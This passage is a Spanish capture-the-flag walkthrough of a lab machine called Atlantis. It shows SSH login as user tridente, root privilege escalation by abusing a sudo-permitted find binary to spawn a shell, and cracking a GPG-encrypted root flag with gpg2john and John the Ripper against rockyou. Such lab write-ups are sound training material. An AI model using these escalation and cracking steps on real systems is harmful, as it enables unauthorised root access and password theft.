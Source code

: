 si miramos el /etc/passwd veremos quiene es el user Poseidon perez

accedemos por ssh como el usuario tridente y conseguimos la primera flag

tridente@Atlantis:~$ id;whoami;hostname
uid=1000(tridente) gid=1000(tridente) groups=1000(tridente)
tridente
Atlantis


## *Escalada de Privilegios*

con sudo -l podemos ejecutar el binario find que se encuentra en la carpeta /home/tridente
tridente@hidr0Gen:~$ sudo -l
[sudo] password for tridente: 
Matching Defaults entries for tridente on Atlantis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tridente may run the following commands on Atlantis:
    (root) /home/tridente/find

tridente@Atlantis:~$ sudo -u root /home/tridente/find . -exec /bin/sh \; -quit
[sudo] password for tridente: 
# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
Atlantis
#

si miramos la flag esta encriptada  la pasaremos a nuestra terminal Y usaremos gpg2john y luego con john intentamos romperlo.

❯ /opt/john/run/gpg2john root.txt.gpg > hash

❯ /opt/john/run/john --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 48234496 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
arthur           (?)     
1g 0:00:01:30 DONE (2022-03-16 18:29) 0.01099g/s 15.73p/s 15.73c/s 15.73C/s bernard..12345a
Use the "--show" option to display all of the cracked passwords reliably
Session completed.


con gpg -d root.txt.gpg  podremos ver la flag de root
